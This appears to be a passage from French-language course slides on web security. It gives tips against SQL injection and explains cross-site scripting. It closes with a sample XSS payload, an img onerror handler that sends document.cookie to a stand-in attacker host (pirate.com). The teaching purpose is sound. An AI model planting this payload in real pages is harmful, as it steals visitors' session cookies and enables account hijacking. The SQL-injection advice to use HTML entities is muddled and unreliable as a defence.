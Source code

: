 # Eviter les injections SQL

* N'accepter que des caractères valides
* A défaut, neutraliser les caractères dangereux
* Utiliser les entités HTML
* Vérifications strictes dans le code
* Eviter les noms prévisibles pour une appli critique

# Cross Site Scripting (XSS)

* Injection de code (html et script)
* Exécution par le navigateur du client
![from : http://www.acunetix.com/websitesecurity/xss/](img/xss.png)

# Cross Site Scripting (XSS)

* Enjeux : tout ce qui est possible en JS
	* Redirection
	* Lecture de cookies (session, ...)
	* Envoi d'info à un autre serveur
	* Modification du contenu de la page
	* ...
* Souvent utilisé pour transmettre le cookie de session

```html
<img src="http://www.urlinexistante.com/im.jpg"
     onerror="window.location='http://www.pirate.com/recuperationcookie.jsp?
     cookie='+document.cookie';">
```
